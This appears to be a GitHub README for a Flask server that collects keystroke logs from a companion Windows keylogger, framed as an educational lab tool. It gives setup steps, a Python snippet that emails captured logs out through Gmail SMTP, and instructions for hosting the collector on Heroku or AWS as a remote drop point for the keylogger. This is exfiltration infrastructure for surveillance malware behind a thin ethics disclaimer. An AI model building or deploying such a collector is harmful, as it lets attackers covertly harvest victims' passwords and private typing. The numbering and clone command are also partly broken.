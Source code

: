# Keylogger Log Server

## Overview
This Flask-based log server receives and stores logs from the Windows-based keylogger (keylogger.c). It supports local operation (e.g., http://127.0.0.1:5000 or http://192.168.1.3:5000), SMTP email transmission, or remote server deployment for receiving logs. The server is designed for educational and ethical auditing purposes in controlled environments with explicit permission.

## Features

Receives keylogger logs via HTTP POST or SMTP email.
Stores logs in a local file (e.g., server_logs.txt) with timestamps.
Lightweight and customizable for local or remote setups.
Supports ethical use in cybersecurity labs.

## Requirements

**OS**: Any OS supporting Python (tested on Windows 11)
**Python**: Version 3.6 or higher
**Dependencies**: Flask (pip install flask), smtplib (standard library for SMTP)
**Network**: Local network access or internet for remote/SMTP setup

## Installation

1. Install Python 3.6+ from python.org.

2. Install Flask:
```bash
pip install flask
```

4. Clone or download the repository:

<pre> ``` git clone cd log-server ``` </pre>



5. Ensure the keylogger is configured to send logs to the server’s URL (e.g., http://127.0.0.1:5000/log) or an email address for SMTP.


## Usage

1. Run the Flask server:
```bash
python log_server.py
```


3. The server starts at http://127.0.0.1:5000 (or a specified IP like 192.168.1.3:5000).

4. Logs are received at the /log endpoint (HTTP POST) or via email (SMTP) and saved to server_logs.txt.

5. Stop the server with Ctrl+C.


## Customization
**Local Server**

1. Default setup runs locally:
```bash
python log_server.py
```


3. Update the keylogger’s URL to match the server’s IP/port (e.g., http://192.168.1.3:5000/log).


**SMTP Email Transmission**

1. Modify log_server.py to send logs via email using smtplib:
```python
import smtplib
from email.mime.text import MIMEText

def send_email(log_data, recipient_email):
    msg = MIMEText(log_data)
    msg['Subject'] = 'Keylogger Log'
    msg['From'] = 'your_email@example.com'
    msg['To'] = recipient_email
    with smtplib.SMTP('smtp.gmail.com', 587) as server:
        server.starttls()
        server.login('your_email@example.com', 'your_app_password')
        server.send_message(msg)
---
```

2. Generate an app-specific password from your email provider (e.g., Gmail’s 2-Step Verification settings).

3. Configure the keylogger to call send_email with log data and a recipient email, or have the server forward POST requests as emails.


## Remote Server Deployment

1. Deploy to a cloud platform (e.g., Heroku, AWS EC2):

**Heroku:**

1. Create a Heroku app: heroku create your-app-name.

2. Push the code: git push heroku main.

3. Set dynamic port in log_server.py:
```python
import os
port = int(os.environ.get('PORT', 5000))
app.run(host='0.0.0.0', port=port)
---
```

5. Update the keylogger’s URL to the remote server’s address.


## Considerations

Do not store or transmit sensitive data without encryption.

## Challenges Overcome

1. Resolved networking issues for stable HTTP/SMTP log transmission.
2. Configured Flask for reliable POST request handling.
3. Managed log storage to prevent data loss.
4. Overcame SMTP authentication and remote deployment challenges.

License
This project is for educational purposes only and is not licensed for commercial or unethical use.
